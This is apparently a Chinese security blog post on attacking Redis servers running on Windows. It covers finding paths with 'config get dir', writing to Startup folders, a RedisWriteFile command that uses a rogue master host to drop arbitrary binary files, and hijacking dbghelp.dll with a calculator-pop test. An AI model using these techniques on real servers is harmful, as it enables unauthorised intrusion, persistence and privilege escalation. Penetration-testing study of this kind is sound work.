 ## Redis在Windows下的利用
到了Windows上，redis的利用变得困难了很多
首先，Windows的Redis最新版本还停留在3.2，所以利用主从复制直接getshell没戏
其次，写web目录的前提是需要知道web的绝对路径，我们可以使用`config get dir`获取当前redis的绝对路径，也可以使用`info`获取redis.conf的绝对路径
![](https://img-blog.csdnimg.cn/1bfa42d336ab4bf68041f682877f459b.png)

但写入web路径还是比较困难
写启动项的话需要机器重启，具体路径为(第二种方法需要用户名)：
```
C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp
C:/Users/Bmth/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup
```

R3start 师傅公布的其他攻击方法：
1. 系统 DLL 劫持 （目标重启或注销）
2. 针对特定软件的 DLL 劫持（目标一次点击）
3. 覆写目标的快捷方式 （目标一次点击）
4. 覆写特定软件的配置文件达到提权目的 （目标无需点击或一次点击）
5. 覆写 sethc.exe 等文件 （攻击方一次触发）

这些方法由于写出的是二进制或者不允许有杂质的文件所以对写出的文件有着严格的内容要求
### 写无损文件
工具：[https://github.com/r35tart/RedisWriteFile](https://github.com/r35tart/RedisWriteFile)
原理：当Redis>=2.8时，支持主从复制(master/slave模式)功能，通过主从复制Redis-slave会将Redis-master的数据库文件同步到本地。攻击者可以伪造一个master，通过控制数据库文件可以在slave中写入无损的文件
```
python3 RedisWriteFile.py --rhost=[target_ip] --rport=[target_redis_port] --lhost=[evil_master_host] --lport=[random] --rpath="[path_to_write]" --rfile="[filename]" --lfile=[filename]
```
![](https://img-blog.csdnimg.cn/92b802eadad342f8be273be10521e058.png)

随后就可以在我们的windows上看到ie.gif，确实是无损的
![](https://img-blog.csdnimg.cn/79ad8f4695c24bd7b1562fe99778b7bd.png)

### dll劫持
在redis本身，会不会在某些情况存在dll劫持的问题，我们来看一下
在测试的过程中，发现在使用`SYNC、BGSAVE`等命令时，存在 dll 劫持的特征
![](https://img-blog.csdnimg.cn/a1675c5d5c07486e871495a8532b0a68.png)

根据规则，dbghelp.dll 不在 Known DLLs 中，会先从安装目录下搜索，即使System32下已经存在了dbghelp.dll
接下来使用工具：[https://github.com/kiwings/DLLHijacker](https://github.com/kiwings/DLLHijacker)，它帮助我们生成劫持DLL后的工程项目，以便我们可以自由的修改Shellcode劫持该DLL，此方法利用函数转发完成，不会破坏原有功能，缺点就是他需要原DLL也同时存在操作系统上
![](https://img-blog.csdnimg.cn/c83cd4286a194907a9d392e3f8c81e22.png)

使用的时候发现报错：NoneType，这里找到修复方案：[https://github.com/JKme/sb_kiddie-/tree/master/hacking_win/dll_hijack](https://github.com/JKme/sb_kiddie-/tree/master/hacking_win/dll_hijack)
先测试一下弹计算器，只需要指定dll的绝对路径即可，这里我们指定到`C:/Windows/System32/dbghelp.dll`
![](https://img-blog.csdnimg.cn/87b42352ac9449cd9fb6bc78d62e9cc9.png)

